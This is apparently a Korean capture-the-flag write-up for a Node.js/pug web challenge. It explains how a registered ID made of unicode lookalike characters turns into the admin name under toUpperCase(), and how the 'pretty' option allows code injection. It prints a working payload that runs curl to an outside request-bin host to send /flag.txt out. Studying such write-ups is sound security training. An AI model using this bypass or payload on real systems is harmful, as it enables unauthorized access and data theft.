<h1>1. 웹페이지 접속</h1>




 

웹페이지에 접속 시 바로 login plz 라는 알림이 출력되며 로그인 페이지로 이동한다.



 
  

Register 버튼을 클릭하여 계정 생성 페이지로 이동했을 때 로그인 페이지와 동일한 폼이 존재하며 아이디와 비밀번호를 입력하고 Register 버튼 클릭 시 계정 생성이 가능할 것으로 보여 ID : test, PW : test 로 계정을 생성하였다.


 
 

 

그리고 생성한 ID 와 PW를 입력하여 로그인을 시도하였는데 로그인이 되지 않았다.



 

웹페이지에서는 올바른 계정을 입력하였음에도 로그인이 되지 않는 이유를 알 수 없어 주어진 소스코드를 분석해보았다.

 

<h1>2. 소스코드 분석</h1>
 

<h2>2.1. /login</h2>
 

 

먼저 로그인 페이지의 소스코드를 분석하였다. request를 통해 전달받은 값을 id, pw 변수에 저장한다. 그리고 id 변수에 저장된 값을 소문자로 치환하여 'bisc2023' 문자열과 비교하고 일치하면 'u r not admin' 알림을 출력하며 로그인 페이지로 리다이렉트시킨다.

 

그리고 id 파라미터로 전달받은 값이 'bisc2023' 이 아니라면 id 변수에 저장된 값을 대문자로 치환하여 accounts 변수에 저장된 값과 비교하게 되는데 id 변수에 저장된 값이 accounts 에 존재하고, accounts[id] 가 pw 변수에 저장된 값과 일치한다면 now 변수에 id 변수의 값을 담고 메인 페이지를 반환한다. accounts는 계정과 비밀번호를 가지고 있는 변수이다.

 


 

여기에서 방금 계정을 생성하여도 로그인이 되지 않았던 이유를 알 수 있는데 바로 line 27에 있는 코드 때문이다. request 를 통해 입력받은 id 값이 'bisc2023' 이 아니라면 id 값을 대문자로 치환한 후 검증하는 과정을 거치게 되는데 가입 시에 ID : test, PW : test 로 가입하였지만 로그인 시에 ID : test 를 입력하면 TEST 로 치환한 후 accounts 변수에 담긴 계정 정보와 비교하게 되기 때문에 서로 일치하지 않아 로그인이 되지 않았던 것이다.

 

<h2>2.2. /edit</h2>
 

다음으로 주목했던 부분은 /edit 엔드포인트이다. 그 이유는 이곳에서만 유일하게 계정을 검증하는 로직이 존재하였기 때문이다.


 

소스코드를 보면 line 93 ~ 95 까지의 코드에서 now 변수의 값을 검증하는 것을 알 수 있다. now 변수에 담기는 값은 위의 /login 소스코드에서 알 수 있는데 로그인에 성공하였을 때 id 변수의 값을 now 변수에 담는다. (/login 소스코드 line 29)

 

다른 엔드포인트에서는 특이한 부분을 발견하지 못하였으나 /edit 소스코드에서 사용자를 검증하여 해당 엔드포인트에 접근 하는 계정이 'BISC2023' 이 아니라면 pretty 변수를 false로 초기화하는 부분이 존재하였다. 해당 엔드포인트에서만 사용자를 검증하는 점, 그리고 'BISC2023' 계정이 아니라면 pretty 변수를 false 로 초기화 하는 것을 보고 해당 기능에 취약점이 있는지 검색한 결과 다음과 같은 글을 발견할 수 있었다.

 

참고자료 - https://github.com/pugjs/pug/issues/3312
 

 

해당 웹페이지는 pug 언어로 작성되어있으며 위 글은 pug에서 발견된 취약점에 대한 글이다. 간단하게 설명하면 pug로 웹페이지를 작성할 때 사용되는 pretty 변수에서 발견된 취약점에 대한 글이며 이 변수에 특정 구문을 삽입하면 삽입된 코드가 실행되는 취약점이라는 내용이다.

 

/edit 엔드포인트의 소스코드 중 line 92를 보면 로그인한 상태에서 pretty 변수에 request 값을 입력받지만 now 변수의 값이 'BISC2023' 이 아니라면 pretty 변수에 false를 저장하게 되므로 해당 취약점은 동작하지 않는다. 따라서 다음과 같은 공격 시나리오를 계획하였다.

 

<h1>3. 공격 시나리오</h1>
 

1) BISC2023 계정으로 로그인한다.

 

2) /edit 페이지로 이동하여 pretty 파라미터를 통해 구문을 삽입하여 코드를 실행시켜 flag를 획득한다.

 

 

<h1>4. 공격 과정</h1>
먼저 BISC2023 계정으로 로그인해야 한다. 그러기 위해 다음의 방법을 사용하였다.

 

https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

위의 글의 내용 중 다음과 같은 내용이 있다.

 

자바스크립트 환경에서 %C4%B1를 touppercase() 하면 == “I”가, %c5%bf를 touppercase()하면 == “S”가 된다라는 내용이 있는데 이 웹페이지에서는 로그인 시 id 값을 받고 소문자로 치환한 값이 bisc2023 이 아니라면 id 값을 대문자로 치환하는 toUpperCase() 함수를 사용한다. 따라서 다음의 id와 pw로 가입한 후 로그인을 시도하였다.

 

```
ID : B%C4%B1%c5%bfC2023
PW : TeamH4C
```

 

이 id와 pw로 가입 후 로그인하면 toLowerCase() 함수로 id 변수의 값을 치환하여도 bisc2023이 아니므로 이 id 값에 대해 toUpperCase() 함수를 실행하게 될 것이며 그러면 ID는 BISC2023이 되어 로그인 검증 과정을 우회하고 해당 계정으로 로그인할 수 있게 된다.

 

먼저 계정을 생성하였다.

 


 

 

이후 생성한 계정으로 로그인을 시도하였고, BISC2023 계정으로 로그인에 성공하였다.

 


 



 

 

다음은 /edit 페이지에 접근하여 코드를 주입한다. /edit 페이지는 게시글을 수정하는 페이지이므로 먼저 게시글을 작성 후 /edit 페이지에 접근하였다.

 

/edit 페이지에서 다음의 구문을 삽입한다.

 

```
// curl 다음에 입력된 주소는 Request Bin 주소이며 사람에 따라 이 주소는 다를 수 있음.
');process.mainModule.constructor._load('child_process').exec('curl https://eodnnmy.request.dreamhack.games/$(cat /flag.txt)');_=('
``` 



 

 

그리고 수정된 게시글에 접근하여 링크를 클릭하였을 때 코드가 실행되어 flag를 획득하였다.

 


 



 

 

<h1>5. Reference</h1>
 

- https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

- https://github.com/pugjs/pug/issues/3312
